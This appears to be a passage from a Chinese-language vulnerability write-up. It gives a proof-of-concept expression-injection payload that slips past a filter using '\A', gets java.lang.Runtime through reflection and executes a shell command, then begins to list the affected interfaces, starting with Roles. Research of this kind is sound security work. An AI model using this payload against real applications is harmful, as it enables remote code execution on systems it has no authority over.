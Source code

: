 也可以直接知道绕过方法,这里我直接给我rce的poc

```
$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(''.getClass().forName('java.lang.Runtime')).exec('touch /tmp/sssss')} 
```

为什么增加了`\A`还不影响表达式的解析呢,这个我后面说,先构造出完整poc

那么我们找一下哪些接口会使用

![image](../img/b8bd7fd96c6368c77190bbac3e4fb9be.png)

可以看到总过有三处,以第一处Roles为例,

![image](../img/41019ea35cc0c96ca36e4b292f7d8e79.png)